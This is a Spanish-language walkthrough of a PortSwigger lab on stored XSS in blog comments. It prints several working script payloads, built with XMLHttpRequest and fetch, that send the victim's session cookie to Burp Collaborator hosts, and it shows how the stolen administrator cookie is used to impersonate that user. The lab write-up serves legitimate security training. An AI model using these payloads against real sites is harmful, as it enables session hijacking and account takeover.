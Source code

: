 ```yaml
---
title: "Exploiting cross-site scripting to steal cookies"
description: "Laboratorio de Portswigger sobre XSS"
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XSS
tags:
  - XSS
  - Exploiting cross-site scripting to steal cookies
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una vulnerabilidad de `stored XSS` en la función de `comentarios del blog`. Un usuario `víctima` simulado ve todos los `comentarios` después de que se publiquen. Para `resolver` el `laboratorio`, debemos `explotar` la vulnerabilidad para `exfiltrar` la `cookie de sesión` de la víctima, luego usar esta `cookie` para `suplantar` a la víctima

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-22/image_1.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-22/image_2.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-22/image_3.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-22/image_4.png)

Hay diferentes opciones para `obtener` la `cookie`, podemos utilizar `fetch` con las opciones `CORS` o `no-cors` o usando el método `GET` o `POST`. Luego tenemos a `XMLHTTPRequest`, con el cual podemos hacer tanto peticiones `GET` como `POST`, pero no podemos especificar la opción `no-cors`, es decir, siempre se tendrá en cuenta el `CORS` [https://developer.mozilla.org/es/docs/Web/HTTP/CORS](https://developer.mozilla.org/es/docs/Web/HTTP/CORS)

El `CORS` es un mecanismo basado en `cabeceras HTTP` que permite a un `servidor` indicar cualquier `dominio`, `esquema` o `puerto` con un `origen distinto` del suyo desde el que un navegador debería permitir la carga de recursos. `CORS` también se basa en un mecanismo por el cual los `navegadores` realizan una `solicitud` de `verificación previa` al `servidor` que aloja el `CORS`, con el fin de comprobar que el `servidor` permitirá la solicitud real. En esa comprobación previa, el navegador envía `cabeceras` que indican el `método HTTP` y las `cabeceras` que se `utilizarán` en la `solicitud real`

Un ejemplo de `CORS` sería el código `JavaScript` del `front-end`, desde `http://domain-a.com` utiliza `XMLHTTPRequest` para realizar una solicitud a `http://domain-b.com/data.json`

Por razones de `seguridad`, los navegadores restringen las `peticiones HTTP` de origen cruzado iniciadas desde `scripts`. Por ejemplo, `XMLHTTPRequest` y la API `Fetch` siguen la `Política Same-origin`. Esto significa que una `aplicación web` que utilice esas `API` solo puede solicitar `recursos` del mismo `origen` desde el que se cargó la aplicación, a menos que la respuesta de otros `orígenes` incluya las `cabeceras CORS` adecuadas

En esta primera petición estamos mandando una `petición` con el método `POST` y es una petición `asíncrona`, es decir, las operaciones pueden `ejecutarse` en `paralelo` o en `segundo plano`. El programa `no espera` a que una `tarea termine` para continuar con la siguiente, lo que permite que se realicen `múltiples operaciones simultáneamente`

```
<script>
    var request = new XMLHttpRequest();
    request.open('POST', 'http://lf4spwr5be5vcxtn56uquhp4yv4qsgg5.oastify.com', true);
    request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    var data = 'cookie=' + encodeURIComponent(document.cookie);
    request.send(data);
</script>
```

En este caso la `petición` se `realiza` por el método `GET` y es `síncrona`, lo cual quiere decir que el `programa` se `bloquea` hasta que esa `tarea` se `complete`, lo que `significa` que `no puede hacer nada más mientras espera`

```
<script>
    var request = new XMLHttpRequest();
    request.open('GET', 'http://gk4nurw0g9aqhsyia1zlzcuz3q9lxcl1.oastify.com/cookie=' + encodeURIComponent(document.cookie), false);
    request.send();
</script>
```

Con `fetch`, a diferencia de `XMLHTTPRequest` podemos `especificar` también si usamos `CORS` o no. El `modo no-cors` tiene la `ventaja` de poder `enviar` una `solicitud` a un `servidor` que no esté `configurado` `para permitir solicitudes de otros orígenes` (por ejemplo, un `servidor` en un `dominio diferente`) y también tiene una `desventaja`, `restringe` el `acceso` a la `respuesta`, por lo cual `no podremos leer ni manipular los datos que el servidor envíe de vuelta`

```
<script>
    fetch('http://gk4nurw0g9aqhsyia1zlzcuz3q9lxcl1.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: encodeURIComponent(document.cookie)
    });
</script>
```

En este caso estamos usando el `método GET` y siguiendo las `convenciones` de `CORS`, ya que es el `modo por defecto`. En este caso tenemos `dos formas` de `transmitir` la `petición` usando el `método GET`, si queremos especificar que `no queremos usar CORS` lo hacemos de esta forma

```
<script>
  fetch("http://0vw75b7krtlasc92lla5aw5jeaka8cw1.oastify.com?cookie=" + encodeURIComponent(document.cookie), {
    method: 'GET',
    mode: 'no-cors'
  });
</script>
```

Si `no necesitamos especificar un modo` podemos `usar` esta otra forma que `seguirá` las `directivas CORS por defecto`

```
<script>
    fetch('http://vut2466fqok5r78xkg909r4ed5j77xvm.oastify.com?cookie=' + encodeURIComponent(document.cookie));
</script>
```

Es importante `realizar` las `peticiones` a un `servidor` mediante `HTTPS` y no `HTTP` en este caso. Si usamos este `payload` la `petición` será `bloqueada` y no nos llegará nada a nuestro `servidor` de `Burpsuite Collaborator`

```
<script>
    fetch('http://vut2466fqok5r78xkg909r4ed5j77xvm.oastify.com?cookie=' + encodeURIComponent(document.cookie));
</script>
```

Si nos `abrimos` el `inspector` de `Chrome` y vemos que la `flag Secure` está seteada en la `cookie`, esta flag asegura que la `cookie` solo se enviará a través de conexiones `seguras` (`HTTPS`). Es una `medida de seguridad` para `evitar` que las `cookies` sean `transmitidas` a través de `conexiones no seguras` (`HTTP`), donde podrían ser `interceptadas` por un `atacante`. A pesar de tener esta `flag`, seguimos pudiendo obtener esta `cookie` mediante `XSS` debido a que la `flag HttpOnly no está seteada`. Esta `flag` se encarga de impedir que la `cookie` sea `accesible` a través de `JavaScript`. Si una `cookie` tiene ambas flags (`HttpOnly` y `Secure`), no podremos acceder a ella a través de `JavaScript` aunque se transmita solo por `HTTPS` y tendremos que buscar `formas alternativas`

![](/assets/img/XSS-Lab-22/image_5.png)

Si nos `abrimos` la `consola` de `desarrollador` vemos como la `petición` ha sido `bloqueada` por no ser una `petición` a un `servidor` que soporte `HTTPS`. El error `Mixed Content`, ocurre cuando una `página web cargada a través de HTTPS` intenta hacer una `solicitud` a un `recurso a través de HTTP`. Esto es considerado `inseguro` y, por lo tanto, el `navegador bloquea la solicitud` para `proteger` la `seguridad` y la `privacidad` de la `web`

![](/assets/img/XSS-Lab-22/image_6.png)

Para `resolver` el `laboratorio` debemos irnos a `Burpsuite Collaborator`, pulsar en `copy to clipboard`, `sustituir` este `subdominio` en alguno de los `cuatro tipos de payloads` explicados anteriormente y `enviarlo a través de un comentario`

![](/assets/img/XSS-Lab-22/image_7.png)

Como hay un `usuario revisando nuestro comentarios`, en el momento en el que `entre al post donde se encuentra publicado nuestro comentario` nos mandará a `Burpsuite Collaborator` sus `cookies`

![](/assets/img/XSS-Lab-22/image_8.png)

Teniendo las `cookies` del `usuario administrador`, nos debemos ir al `navegador`, pulsar `Ctrl + Shift + i` para que nos abra el `inspector` de `Chrome`, `sustituir` la `cookie` y `refrescar` la `web` pulsando `F5`

![](/assets/img/XSS-Lab-22/image_9.png)

Si pulsamos en `My account` vemos que nos hemos `convertido` en el usuario `administrator`

![](/assets/img/XSS-Lab-22/image_10.png)
